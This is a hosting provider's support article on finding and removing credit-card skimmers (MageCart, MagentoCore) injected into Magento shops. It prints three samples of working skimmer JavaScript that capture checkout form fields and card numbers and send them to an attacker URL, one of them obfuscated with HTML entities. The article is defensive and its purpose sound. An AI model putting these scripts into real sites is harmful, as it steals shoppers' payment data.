




---
myst:
  html_meta:
    description: "Learn how to fix the malicious Credit Card Hijack in Magento and\
      \ protect your customers' financial data. "
    title: How to fix malicious Javascript Credit Card Hijacks? | Hypernode
redirect_from:
  - /en/best-practices/security/how-to-fix-malicious-javascript-credit-card-hijack/
---

<!-- source: https://support.hypernode.com/en/best-practices/security/how-to-fix-malicious-javascript-credit-card-hijack/ -->

# How to Fix Malicious Javascript Credit Card Hijack

The hack *Credit card Hijack* is malicious code in Magento that allows hackers to intercept financial data, such as credit card credentials. This article further explains what this security breach means, what the consequences are and how you can fix it.

*We recommend checking your site with*[*Magereport.com*](http://magereport.com/)*for other vulnerabilities.*

## What Is Credit Card Hijack?

The Credit Card Hijack is the collective name of multiple credit card skimmers which may be injected in Magento and allows hackers to capture unencrypted credit card details (like credentials). Known names are the **MagentoCore** skimmer and the **MageCart** skimmer.

This check indicates whether your shop is injected with malware. However, it is not possible for MageReport to check which malware infected your shop.

With this relatively new way of hacking, malware is added in the browser of your websites’ visitors. This malware intercepts the credit card credentials the moment your customer types them in their browser. At this point the credentials aren’t encrypted yet.

In 2015 we analyzed the malware and found out that a staggering amount of 3500 Magento shops are part of a zombie network that interfere credit card credentials, and send this data to so called command&control servers. (Command&control servers are a network of servers where hackers collect this sort of data). This was the first time we encountered an automated credit card fraud on this scale. It’s obvious hackers have massively improved in becoming more professional in automating large-scale credit card fraud.

[Read more about Credit card Hijack](https://www.byte.nl/blog/widespread-credit-card-hijacking-discovered)

We suspect this leak has been made possible due to unpatched Magento shops. So if you haven’t completely patched your Magento shop yet, make sure you do. Use Magereport.com to check if there are any patches not yet installed.

## What Are the Consequences?

Credit Card Hijack allows hackers to intercept your customers financial data. With this information they can commit global credit card fraud, causing a lot of financial damage.

The fraud can be traced back to May 12th 2015, which implies the malpractice went unnoticed for months and is still active.

## How Do I Fix It?

*Fixing this breach is not an easy task. If you don’t have a lot of knowledge of Magento’s security, we recommend you hire an Magento developer or specialist experienced in Magento security.*

### Apply All Available Magento Patches

Scan your shop with [Magereport.com](http://magereport.com/) to find out which patches have been and have not been installed yet. When a patch isn’t installed, install it with the instructions given.

### Review and Remove

Review all admin users in your system via Magento’s backend (navigate to system>Permissions>Roles). Remove any accounts which you are not actively using and set strong passwords for all admin users you do use.

### Remove Unknown Scripts (PHP & Javascript)

Search your shop for scripts similar to the ones below and remove them. Searching and removing can be done via Magento’s backend. Once logged in to your backend (screenshots below):

1. Navigate to ‘System’ -> Configuration
   
1. Go to ‘Design’ under ‘General’
   
1. Scroll down and open HTML Head to check ‘Miscellaneous Scripts’
   
1. Scroll down and open Footer to check Miscellaneous HTML
   

**If Miscellaneous scripts and Miscellaneous HTML are empty, you’re most likely safe. If not, check if they contain the scripts below.**

The script below is an example of a minified version of the [scraper Javascript](https://blog.sucuri.net/2015/06/magento-platform-targeted-by-credit-card-scrapers.html).

```javascript
function jj(e){var t="; "+document.cookie,o=t.split("; "+e+"=");return 2==o.length?o.pop().split(";").shift():void 0}jj("SESSIID")||(document.cookie="SESSIID="+(new Date).getTime()),jQuery(function(e){e("button").on("click",function(){var t="",o="post",n=window.location;if(new RegExp("onepage|checkout").test(n)){for(var c=document.querySelectorAll("input, select, textarea, checkbox"),i=0;i&lt;c.length;i++)if(c[i].value.length&gt;0){var a=c[i].name;""==a&amp;&amp;(a=i),t+=a+"="+c[i].value+"&amp;"}if(t){var l=new RegExp("[0-9]{13,16}"),u=new XMLHttpRequest;u.open(o,e("&lt;div /&gt;").html("&amp;#104;&amp;#116;&amp;#116;&amp;#112;&amp;#115;&amp;#58;&amp;#47;&amp;#47;&amp;#98;&amp;#97;&amp;#100;&amp;#46;&amp;#103;&amp;#117;&amp;#121;&amp;#47;&amp;#106;&amp;#113;&amp;#117;&amp;#101;&amp;#114;&amp;#121;&amp;#46;&amp;#112;&amp;#104;&amp;#112; ").text(),!0),u.setRequestHeader("Content-type","application/x-www-form-urlencoded"),u.send(t+"&amp;asd="+(l.test(t.replace(/s/g,""))?1:0)+"&amp;utmp="+n+"&amp;cookie="+jj("SESSIID")),console.clear()}}})});
```

The script below is an example of Credit Card Hijack’s malicious code. It installs the functions ‘send’ and ‘clk’, which allows hackers to collect the names and content of every common form input element, when your customer clicks a button or submits a form.

```javascript
var snd =null;
window.onload = function () {
 if((new RegExp('onepage')).test(window.location)) {
 send();

 }
};

function clk() {
 var inp=document.querySelectorAll("input, select, textarea, checkbox");
 for (var i=0;i&lt;inp.length;i++){
 if(inp[i].value.length&gt;0) {
 var nme=inp[i].name;
 if(nme=='') { nme=i; }
 snd+=inp[i].name+'='+inp[i].value+'&amp;';
 }
 }

}

function send() {
var btn=document.querySelectorAll("a[href*='javascript:void(0)'],button, input, submit, .btn, .button");
 for (var i=0;i&lt;btn.length;i++){
 var b=btn[i];
 if(b.type!='text' &amp;&amp; b.type!='select' &amp;&amp; b.type!='checkbox' &amp;&amp; b.type!='password' &amp;&amp; b.type!='radio') {
 if(b.addEventListener) {
 b.addEventListener("click", clk, false);
 }else {
 b.attachEvent('onclick', clk);
 }
 }
 }

 var frm=document.querySelectorAll("form");
 for (var i=0;i&lt;frm.length;i++){
 if(frm[i].addEventListener) {
 frm[i].addEventListener("submit", clk, false);
 }else {
 frm[i].attachEvent('onsubmit', clk);
 }
 }

 if(snd!=null) {
 console.clear();
 var cc = new RegExp("[0-9]{13,16}");
 var asd="0";
 if(cc.test(snd)){
 asd="1" ;
 }
var http = new XMLHttpRequest();
http.open("POST","https://bad.guy/jquery.php",true);
http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
http.send("data="+snd+"&amp;asd="+asd+"&amp;id_id=ano.nym");
console.clear();
 }
 snd=null;
 setTimeout('send()', 150);
}
```

The script below was found during the research done by Hypernode. It covers the same functionality as the script above, but is harder to spot because it’s included in a minimised form. In this script Jquery is used to add unnamed click event-handler to every button on the page. If someone clicks the button, the function is triggered and allowed to collect al input data. It checks for credit card numbers and this information is sent off to their data collection server.

```javascript
 function jj(e) {
 var t = "; " + document.cookie
 , o = t.split("; " + e + "=");
 return 2 == o.length ? o.pop().split(";").shift() : void 0
 }
 jj("SESSIID") || (document.cookie = "SESSIID=" + (new Date).getTime())
 , jQuery(function (e) {
 e("button").on("click", function () {
 var t = ""
 , o = "post"
 , n = window.location;
 if (new RegExp("onepage|checkout").test(n)) {
 for (var c = document.querySelectorAll("input, select, textarea, checkbox"), i = 0; i &lt; c.length; i++)
 if (c[i].value.length &gt; 0) {
 var a = c[i].name;
 "" == a &amp;&amp; (a = i)
 , t += a + "=" + c[i].value + "&amp;"
 }
 if (t) {
 var l = new RegExp("[0-9]{13,16}")
 , u = new XMLHttpRequest;
 u.open(o, e("&lt;div /&gt;").html("&amp;#104;&amp;#116;&amp;#116;&amp;#112;&amp;#115;&amp;#58;&amp;#47;&amp;#47;&amp;#98;&amp;#97;&amp;#100;&amp;#46;&amp;#103;&amp;#117;&amp;#121;&amp;#47;&amp;#106;&amp;#113;&amp;#117;&amp;#101;&amp;#114;&amp;#121;&amp;#46;&amp;#112;&amp;#104;&amp;#112; ").text(), !0)
 , u.setRequestHeader("Content-type", "application/x-www-form-urlencoded")
 , u.send(t + "&amp;asd=" + (l.test(t.replace(/s/g, "")) ? 1 : 0) + "&amp;utmp=" + n + "&amp;cookie=" + jj("SESSIID"))
 , console.clear()
 }
 }
 })
 });
```

## Recover Your Shop

Since Credit Card Hijack is an ongoing credit card fraud dating from May 2015, it’s difficult to pinpoint how exactly the hackers got in. We assume it’s due to a combination of various know Magento leaks. It’s likely hackers used these security vulnerablities to set up this credit card fraud.

We recommend you ‘clean’ your shop following the steps written in the article [Recover a Hacked Magento Shop](../../best-practices/security/how-to-recover-a-hacked-magento-shop.md) after installing all Magento patches, deleting inactive Magento admins and removing malicious code.

## Need Help?

Magento is no easy open source CMS. Although we’re very skilled in hosting Magento shops, making them fast and keeping conversion high, we’re no Magento developers. Luckily, we know a lot of agencies that do know a lot about how Magento works. If you need help, don’t hesitate to [contact one of these agencies](https://www.magereport.com/page/support).
